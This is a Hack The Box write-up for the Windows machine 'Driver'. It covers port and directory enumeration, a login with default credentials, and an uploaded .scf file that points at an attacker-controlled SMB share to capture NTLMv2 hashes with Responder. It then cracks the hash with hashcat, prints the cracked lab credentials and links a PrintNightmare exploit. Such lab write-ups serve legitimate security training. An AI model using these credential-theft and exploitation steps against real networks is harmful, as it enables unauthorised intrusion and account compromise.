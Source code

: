 ```yaml
---
title: "[HTB] Machine: Driver"
description: "[HTB] Machine: Driver"
date: 2023-08-15
menu:
  sidebar:
    name: "[HTB] Machine: Driver"
    identifier: htb-machine-Driver
    parent: htb-machines-windows
    weight: 10
hero: images/driver.png
tags: ["HTB", "net-ntlmv2", "scf", "responder", "hashcat", "crackmapexec", "evil-winrm", "winpeas", "printer", "printnightmare", "cve-2021-1675", "invoke-nightmare"]
---
```


# Driver
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.106 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 18:16 BST
Nmap scan report for 10.10.11.106 (10.10.11.106)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-18T00:16:51
|_  start_date: 2023-08-18T00:13:34
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m24s, deviation: 0s, median: 6h59m23s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.04 seconds

```
- `smb`
  - `enum4linux` had no success 
```
└─$ smbclient -N -L //10.10.11.106
session setup failed: NT_STATUS_ACCESS_DENIED
```
- Port `80`

![](./images/1.png)

![](./images/2.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.106 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.106
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/17 19:01:38 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 401) [Size: 20]
/images               (Status: 301) [Size: 150] [--> http://10.10.11.106/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.106/Images/]
/Index.php            (Status: 401) [Size: 20]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.106/IMAGES/]
/INDEX.php            (Status: 401) [Size: 20]

```
## Foothold/User
- From the scren above we saw `WWW-Authenticate` header
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate
  - `A description of the protected area. If no realm is specified, clients often display a formatted hostname instead.`
  - We have our username - `admin`
  - Default `admin:admin` creds work

![](./images/3.png)

- Firmware update page, which states that it uploads firmware to file share
  - Then it is reviewed by the team

![](./images/4.png)

- So we can utilize `.scf` file
  - Check https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#shell-command-files
  - Let's create one

```
[Shell]
Command=2    
IconFile=\\10.10.16.4\anything.exe
```

- Launch `responder`, upload `scf` and wait 
  - And we got `hash`

![](./images/5.png)

![](./images/6.png)

- Let's crack it
  - `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt`
  - `tony:liltony`

![](./images/7.png)

- Test creds with `crackmapexec`

![](./images/8.png)

- `Evil-Winrm`

![](./images/9.png)

## Root
- Since it's a printer box I wondered if `PrintNightmare` would work
  - Download the `POC`
    - https://github.com/calebstewart/CVE-2021-1675

![](./images/10.png)

![](./images/11.png)
